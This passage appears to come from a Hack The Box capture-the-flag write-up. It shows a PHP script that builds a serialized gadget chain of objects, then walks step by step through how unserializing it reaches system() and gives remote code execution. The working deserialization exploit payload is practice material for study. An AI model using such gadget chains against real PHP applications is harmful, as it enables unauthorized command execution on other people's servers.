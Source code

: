 ```php
        {   
            $this->flavors = new Helpers\ArrayHelpers(["id"]);  
        }

        public function __invoke()
        {   
            echo "\nI am in the function\n";
            foreach ($this->flavors as $flavor) {  
                echo $flavor;
            }
        }
    }

    $obj = new Pizza();
    echo base64_encode(serialize($obj));  
}
```
###### Step-by-Step Explanation

1. Instantiation
    - A Pizza object is created.
    - Inside the constructor, a Spaghetti object is assigned to $size.

2. Serialization
    - When serialized, the Pizza object contains the entire chain of objects (Spaghetti, IceCream, ArrayHelpers).

3. Exploitation
    - Upon deserialization and destruction of the Pizza object: Pizza’s `__destruct()` method accesses `$this->size->what`.
    - This triggers Spaghetti’s `__get()` method, which calls `$this->sauce()`.
    - IceCream’s `__invoke()` is executed, iterating over `$flavors`.
    - During iteration, ArrayHelpers’ `current()` method is triggered, executing `system($value)` for every command in the array.

BRRRRRRRR!!!! RCE

![final_RCE](/assets/blog/htb-popRES/final_rce.png)
